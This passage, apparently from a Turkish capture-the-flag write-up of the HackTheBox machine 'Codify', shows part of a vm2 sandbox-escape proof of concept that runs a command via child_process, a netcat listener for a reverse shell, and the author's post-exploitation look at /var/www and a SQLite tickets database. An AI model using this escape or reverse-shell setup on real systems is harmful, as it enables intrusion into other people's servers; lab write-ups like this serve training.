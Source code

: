 ```javascript title="PoC" hl_lines="21"


    c.constructor('return process')().mainModule.require('child_process').execSync(payload);
}
`

console.log(vm.run(code));
```

Ardından Netcat ile 4444 numaralı port üzerinde bir dinleyici başlattım:

```bash
nc -lvnp 4444
```

PoC kodunu [http://codify.htb/editor](http://codify.htb/editor) sitesinde bulunan editör üzerinde çalıştırdığımda Netcat dinleyici üzerinde shell elde edebildim.

Hemen arkasından shell yükseltmesi yaparak daha sağlam bir TTY elde ettim ve böylece komut çalıştırırken alınabilecek hataları en aza indirgemiş oldum.

Aşağıdaki komut ile `/var/www/` dizininin içeriğini kontrol ettim:

```bash
ls /var/www/*
```

```text title="Output" hl_lines="6"
/var/www/contact:
index.js
package.json
package-lock.json
templates
tickets.db

/var/www/editor:
index.js
node_modules
package.json
package-lock.json
templates

/var/www/html:
index.html
```

Burada bulunan `tickets.db` dosyası ilgi çekiciydi. Bu yüzden ilk önce bu dosyanın türünü kontrol ettim:

```bash
file /var/www/contact/tickets.db
```

```text title="Output"
/var/www/contact/tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
```
